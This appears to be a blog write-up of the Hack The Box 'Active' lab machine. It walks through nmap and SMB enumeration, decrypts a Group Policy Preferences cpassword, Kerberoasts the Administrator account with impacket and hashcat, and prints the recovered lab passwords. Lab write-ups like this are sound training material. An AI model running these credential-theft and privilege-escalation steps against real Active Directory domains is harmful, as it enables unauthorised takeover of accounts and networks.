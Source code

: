 ```yaml
---
layaout: post
title: Active Write Up HTB
date: 28-01-2025
categories: [Write ups]
tag: [Active Directory, kerberoasting, GPP]
---
```

![img-description](/assets/images/active.png)

**Active** is a relatively straightforward machine, perfect for getting started with **Active Directory**. In this machine, we'll explore techniques like **Kerberoasting** and **GPP Passwords**, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts! 🚀
# **ENUMERATION**
----
## NMAP SCANNING
----
We start using nmap:
````bash 
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53262/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 52552/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-01-27T18:16:36
|_  start_date: 2025-01-27T17:58:44
|_clock-skew: -1s
````
After analyzing the nmap, we can realize that we are dealing with an Active Directory, so we will start by enumerating the SMB.

# **ENUMERATING SMB AS ANONYMOUS**
----
````bash
smbclient -L \\\10.10.10.100/shares
Password for [WORKGROUP\root]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
````

## On smb we found credentails for SVC_TGS
---
````bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 22:46:06 2018

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
````

# **FOOTHOLD**
----
## Group Policy Preferences

When a new Group Policy Preference (GPP) is created, an XML file is stored in the SYSVOL share containing its configuration, including any associated passwords. These passwords are AES-encrypted and stored as `cpassword`. However, Microsoft publicly [released the encryption key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx).

In 2014, Microsoft patched this by preventing admins from adding passwords to GPP, but it didn’t address existing vulnerable passwords. As of 2025, pentesters still find these issues. For more details, see this [AD Security post](https://adsecurity.org/?p=2288).

# **AUTHENTICATED ENUMERATION**
---
## Enumerating SMB as SVC_TGS
----

````bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18

smb: \SVC_TGS\Desktop\> ls
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt                           AR       34  Tue Jan 28 02:14:45 2025

                5217023 blocks of size 4096. 260447 blocks available
````
# **PRIVILEGE ESCALATION**
----
## Kerberoasting
----
Kerberos is an authentication protocol used in Windows Active Directory environments (and can also be used for Linux hosts). In 2014, Tim Medin introduced the _Kerberoasting_ attack. This attack involves obtaining Kerberos tickets encrypted with the hash of a service account's password. Instead of sending the ticket to the service, it can be brute-forced offline to crack the password.

Typically, an active domain account is required to perform the attack. However, if the Domain Controller (DC) is configured with the _"Do not require Kerberos preauthentication"_ setting, it’s possible to request and receive a ticket without a valid domain account.

We are going to use the credentials we previously obtained to execute the attack using `impacket-GetUserSPNs`.
````bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-01-27 18:59:55.488567
````
We were able to extrat the ticket which we will try to force decrypt to get Administrator's password

````bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
````

## Acces as ADMINISTRATOR to smb

````bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968

smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Jan 21 17:49:47 2021
  ..                                 DR        0  Thu Jan 21 17:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
  root.txt                           AR       34  Mon Jan 27 18:59:52 2025
  
````
![netrunner](/assets/images/netrunner.gif)